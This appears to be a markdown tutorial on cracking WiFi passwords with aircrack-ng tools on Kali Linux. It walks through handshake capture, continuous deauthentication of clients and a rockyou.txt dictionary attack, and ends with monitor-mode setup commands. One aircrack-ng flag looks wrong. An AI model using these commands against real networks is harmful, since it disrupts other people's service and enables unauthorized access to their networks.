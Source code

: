 
# Brute-Force Dictionary Attack

Next we moved on to the Brute-Force toolkit.

While Reaver kept bombarding WiFi router with continuous retries, Brute-Force captured successful client handshakes from which a LOCK was crafted to be opened by the keys in a dictionary until a match was found. Rather than meddling with the router like forever, the brief encounter ended by a handshake that transcended into a much longer journey of lonely data processing.

The dictionay such as rockyou.txt was a text file that contained commonly-used passwords or combinations of letters and numbers. A good dictionary thus needed to have "ALL" combinations imaginable. Ours contained 144344394 passwords that was a huge list. So an attack of this nature was time consuming. Success was based on computing power and the number of combinations tried rather than an ingenious algorithm.

Having put the 2200mW NextG USB-Yagi TurboTenna into the packet monitoring and injection mode, we opened two command line terminals. One for capturing the handshake data and the other kept provoking for client handshakes.

To launch Brute-Force against WiFi network with <BSSID> 11:22:33:44:55:66 and <ESSID> MyWiFi at channel 2:
```
airodump-ng -c 2 11:22:33:44:55:66 -w /root/Desktop/MyWiFi wlan0mon
```
To provoke client handshakes:
```
aireplay-ng -0 0 -a 11:22:33:44:55:66 wlan0mon
```
These processes were stopped once a successful handshake was found. KALI Linux has a dictionary residing in /usr/share/wordlists/rockyou.txt.gz

To make sure that we had the latest update and installed the dictionary on Desktop:
```
apt-get update && apt-get full-upgrade

cd Desktop

gunzip /usr/share/wordlists/rockyou.txt.gz
```
To try opening MyWiFi-01.cap with keys in the dictionary rockyou.txt:
```
aircrack-ng -1 rockyou.txt MyWiFi-01.cap
```







# Half Handshake Attack
### look up wifi adapter:
```
ifconfig -a
or
ip addr
```
### Packet monitoring and injection commands:
```
airmon-ng check kill

airmon-ng check

airmon-ng start wlan0

airodump-ng wlan0mon
```